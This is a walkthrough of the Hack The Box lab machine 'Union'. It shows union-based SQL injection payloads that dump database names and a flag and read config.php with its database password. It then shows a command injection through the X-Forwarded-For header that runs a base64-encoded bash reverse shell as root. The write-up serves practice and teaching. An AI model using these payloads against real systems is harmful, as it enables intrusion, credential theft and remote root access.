 ```yaml
---

title: 🟠 HTB - Union
author: Acivik
date: 2025-01-24 18:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Union, walkthrough, medium, linux]

---
```


![https://i.ibb.co/KsjYWLp/Union.png](https://i.ibb.co/KsjYWLp/Union.png)

---

# <span style="color:#AA0E1C"><b># Reconnaissance</b></span>

## <span style="color:#0096FF">Nmap</span>

Nmap discovers that only port 80 (HTTP) is open as a result.

```bash
root@kali:~/HTB/union# nmap -p- -sT --min-rate 10000 10.10.11.128 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-20 18:28 UTC
Nmap scan report for 10.10.11.128 (10.10.11.128)
Host is up (0.063s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.48 seconds
root@kali:~/HTB/union#
root@kali:~/HTB/union# nmap -p80 --min-rate 10000 10.10.11.128 -sVC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-20 18:29 UTC
Nmap scan report for 10.10.11.128 (10.10.11.128)
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.38 seconds
root@kali:~/HTB/union#
```

Web server is running Nginx on Ubuntu.

It’s hard to say anything specific about the operating system except that it's Ubuntu.

# <span style="color:#AA0E1C"><b># Enumeration</b></span>

## <span style="color:#0096FF">WebSite</span>

![https://i.ibb.co/0VwZwZq/resim-2025-01-23-113320715.png](https://i.ibb.co/0VwZwZq/resim-2025-01-23-113320715.png)

We will perform directory scanning to discover more pages.

### <span style="color:#FFC300">Directory Brute Force</span>

```bash
/index.php
/firewall.php
/config.php
/challenge.php
```

`/challenge.php` 

![https://i.ibb.co/sJyy8Rm/resim-2025-01-23-113716462.png](https://i.ibb.co/sJyy8Rm/resim-2025-01-23-113716462.png)

# <span style="color:#AA0E1C"><b># Foothold: Shell as uhc</b></span>

![https://i.ibb.co/ctxxgkV/Ekran-g-r-nt-s-2025-01-23-114305.png](https://i.ibb.co/ctxxgkV/Ekran-g-r-nt-s-2025-01-23-114305.png)

![https://i.ibb.co/dcXrhqF/Ekran-g-r-nt-s-2025-01-23-114405.png](https://i.ibb.co/dcXrhqF/Ekran-g-r-nt-s-2025-01-23-114405.png)

We successfully run an SQL injection to extract data from the database:

```bash
payload: ' union select group_concat(schema_name) from information_schema.schemata-- -
response: mysql,information_schema,performance_schema,sys,november
```

```bash
payload: ' union select group_concat(table_name) from information_schema.tables where table_schema='november'-- -
response: flag,players
```

```bash
payload: ' union select group_concat(column_name) from information_schema.columns where table_name='flag'-- -
response: one
```

```bash
payload: ' union select one from flag-- -
response: UHC{F1rst_5tep_2_Qualify}
```

We got the flag. Let's input this flag into `/challenge.php`.

![https://i.ibb.co/tLLKkRx/resim-2025-01-23-121353489.png](https://i.ibb.co/tLLKkRx/resim-2025-01-23-121353489.png)

The machine now allows us to access the SSH service, but we still don't have the credentials.

```bash
root@kali:~/HTB/union# nmap -p22 10.10.11.128
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 09:14 UTC
Nmap scan report for 10.10.11.128 (10.10.11.128)
Host is up (0.055s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
root@kali:~/HTB/union#
```

I am trying to read local files by exploiting the SQL injection vulnerability.

```bash
payload: ' union select load_file('/var/www/html/config.php')-- -
response: 
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

`uhc:uhc-11qual-global-pw`

```bash
root@kali:~/HTB/union# ssh uhc@10.10.11.128
uhc@10.10.11.128's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: uhc → root</b></span>

```bash
uhc@union:/var/www/html$ cat firewall.php 
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}

?>
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
		<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
		</div>
	</section>
</div>
uhc@union:/var/www/html$
```

We have accessed the application's source code, specifically the iptables command.. Using the HTTP header employed here, we can perform a command injection.

```bash
X-FORWARDED-FOR: ;echo "YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEwLzEyMTIgPCYxCg=="|base64 -d|sudo /bin/bash;
```

we got root!

```bash
root@kali:~/HTB/union# nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.128] 42346
bash: cannot set terminal process group (808): Inappropriate ioctl for device
bash: no job control in this shell
root@union:/var/www/html#
```